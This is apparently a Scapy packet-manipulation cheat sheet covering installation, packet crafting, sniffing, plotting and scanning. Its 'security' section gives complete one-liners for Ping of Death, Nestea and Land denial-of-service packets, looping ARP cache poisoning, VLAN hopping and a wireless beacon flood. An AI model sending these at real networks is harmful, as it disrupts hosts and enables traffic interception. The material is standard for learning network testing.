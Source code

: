 * scapy
** Scapy configuration

Configure scapy to allow graphic:

 apt-get install graphviz imagemagick

Install scapy and configure

 apt-get install scapy

Allow graphical dumps for scapy:

 apt-get install python-pyx
 apt-get install python-gnuplot pyxplot

Allow scapy to use crypto:

 apt-get install python-pycryptop python-crypto

Install vpython:

 apt-get install python-visual

** Basic usage: list commands and protocols

List of commands:

 lsc()

List of protocols:

 ls()

To start creating different kind of packets/frames:

 x=Ether()
 x=IP()
 x=TCP()
 x=UDP()
 x=ICMP()
 x=Dot1Q()
 ...etc...

** set and print fields

Parameters for different packets:

 ls(IP)
 ls(TCP)
 ls(UDP)
 ls(ICMP)
 ls(Dot1Q)
 ...etc..

Show field:

 x.field

Set specific field:

 x.field='value'

Set specific field when creating a packet:

 x=IP(field='value')

Unset specific field:

 del(x.field)

=== Stack layers ===

Stacking layers:

 x=Ether()/IP()/TCP()

Stacking layers with set values:

 IP()/TCP()/"GET / HTTP/1.0\r\n\r\n"

=== Export and dump packets ===

Assembly a packet:

 str(IP())

Dissect a packet:

 IP(_)

Export to base64 format:

 export_object(x)

Import back to original format:

 import_object(x)

Hexdump a packet and convert to stream:

 x=Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"
 hexdump(x)
 y=str(x)
 z=Ether(y)
 z

Hide defaults (for a dissected package):

 z.hide_defaults()
 z

** specify anges

Specify a list of ports, IPs, etc:

    x.dport=[135,139,445]

Specify a range of ports:

    x.dport=(110,120)

Specify a list of ranges:

    x.type=[(0,7),(9,12)]

** sniffing, read and write pcaps

Read PCAP files:

 x=rdpcap("file.cap")
 x

Write PCAP files:

 wrpcap("file.cap", x)

Show in wireshark:

  wireshark(x)

Sniff packets:

 x=sniff()
 ...or for some interface and count...
 x=sniff(iface="eth0",count=100)
 ...or for some protocol and some host and count...
 x=sniff(filter="icmp and host 66.35.250.151", count=2)

** lists

Working with list of packets:

 x.summary()
 x.nsummary()
 x[index]

** show and display packets

Graphical dump to ps or pdf:

 x.pdfdump(layer_shift=1)
 ...or...
 x.psdump("file.eps",layer_shift=1)

Show a packet:

 x.show()
 ...or with checksum calculated with...
 x.show2()

Command to generate some specific packet:

 x.command()

Display conversations:

 x.conversations()

RAW hexdump:

 x.hexraw()

Hexdamp with/without padding

 x.padding()
 ...or...
 x.nzpadding()

Plot a lambda function to a list of packets:

 x.plot()

Make a table according to lambda function:

 x.make_table()

Draw graphs:

 ... make the graph (e.g. from a traceroute ans results ...
 ans.graph()
 ... pipe to a ps ...
 ans.graph(type="ps",target="| lp")
 ... save to an svg file ...
 ans.graph(target="> file.svg")

3D graphs (if VPython installed):

 ans.trace3D()

=== send and receive ===

Send packets or frames:

 # Send will handle route and L2 for us
 x=IP(dst="1.2.3.4")/ICMP()
 send(x)
 ...or...
 # We will need to handle the proper interface and link layer protocol
 x=(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
 sendp(x)

** Loops

Generate any value with random stuff except the checksums for fuzz tests:

 send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)

Send and receive packets (will return 2 lists of packets, with ans and unans):

 ...send and return only the first answer...
 x=sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX")
 ...or just normal send and receive...
 x=sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
 ...or with retry, timeout and interval...
 sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
 ...or with some loop...
 srloop...

 ...and same for L2...

 srp1...
 ... or...
 srp...
 ... or...
 srploop

Get the last result in a list (or two lists):

 ans,unans = _

** configurations

Show current configuration:

 conf

Configure interface to use:

 conf.iface='eth1'

Configure super sockets:

 conf.L3socket=L3dnetSocket
 conf.L3listen=L3pcapListenSocket

Configure a route:

 ... to print routing table ...
 conf.route
 ... to delete a route ...
 conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
 ... to add a route ...
 conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
 ... resync the routes ...
 conf.route.resync()

** modules

Load modules:

 ...for passive os fingerprint...
 load_module("p0f")
 p0f(x)

** traceroute

Traceroute with scapy:

 traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)

** sessions

Sessions with scapy:

 ... to save ...
 save_session()
 ... to load ...
 load_session()
 ... show session ..
 dir()

** scans

ACK scans:

 ... classic tcp syn scan ...
 ans,unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))
 ... find unfiltered ports (answered packets) ...
 >>> for s,r in ans:
 ...     if s[TCP].dport == r[TCP].sport:
 ...        print str(s[TCP].dport) + " is unfiltered"
 ... find filtered ports (unanswered packets)...
 >>> for s in unans:
 ...     print str(s[TCP].dport) + " is filtered"

XMAS scans:

 ... Checking RST responses will reveal closed ports on the target ...
 ans,unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") )

IP scan (low level):

 ... to ennumerate supported protocols ...
 ans,unans=sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2)

ARP ping:

 ...way to discover hosts on a local ethernet network...
 ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
 ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
 ...or...
 arping("192.168.1.*")

ICMP ping:

 ans,unans=sr(IP(dst="192.168.1.1-254")/ICMP())
 ans.summary(lambda (s,r): r.sprintf("%IP.src% is alive") )

TCP ping:

 ...if echo requests are blocked :-)...
 ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
 ...any response to our probes will indicate a live host :-)...
 ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

UDP ping:

 ...if everything else fails, UDP ping will produce ICMP Port unreachable errors from live hosts :-)...
 ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )
 ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

** wireless injection

Frame injection (wireless):

 ... prepare the interface ...
 $ ifconfig wlan0 up
 $ iwpriv wlan0 hostapd 1
 $ ifconfig wlan0ap up
 ... inject a frame ...
 sendp(Dot11(addr1="ff:ff:ff:ff:ff:ff",addr2=RandMAC(),addr3=RandMAC())/
          Dot11Beacon(cap="ESS")/
          Dot11Elt(ID="SSID",info=RandString(RandNum(1,50)))/
          Dot11Elt(ID="Rates",info='\x82\x84\x0b\x16')/
          Dot11Elt(ID="DSset",info="\x03")/
          Dot11Elt(ID="TIM",info="\x00\x01\x00\x00"),iface="wlan0ap",loop=1)

** security

Malformed packets:

 send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())

Ping of the death:

 send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )

Nestea:

 send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
 send(IP(dst=target, id=42, frag=48)/("X"*116))
 send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))

Land attack (win):

 send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning:

 send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), inter=RandNum(10,40), loop=1 )

ARP cache poisoning with double encapsulation:

 send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2)/ARP(op="who-has", psrc=gateway, pdst=client),inter=RandNum(10,40), loop=1 )

TCP port scanning:

 res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
 res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )

IKE scanning (to identify VPN concentrators):

 res,unans = sr( IP(dst="192.168.1.*")/UDP()/ISAKMP(init_cookie=RandString(8), exch_type="identity prot.")/ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()))
 res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) )

VLAN hopping:

 sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP())

Analyze ISN (Initial Seq Number):

 ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
 >>> temp = 0
 >>> for s,r in ans:
 ...    temp = r[TCP].seq - temp
 ...    print str(r[TCP].seq) + "\t+" + str(temp)
 ...

** More advanced features

# Check advanced use: http://www.secdev.org/projects/scapy/doc/advanced_usage.html
# Check adding new tools: http://www.secdev.org/projects/scapy/doc/extending.html
# Check adding new protocols: http://www.secdev.org/projects/scapy/doc/build_dissect.html
# Check scapy development: http://www.secdev.org/projects/scapy/doc/development.html
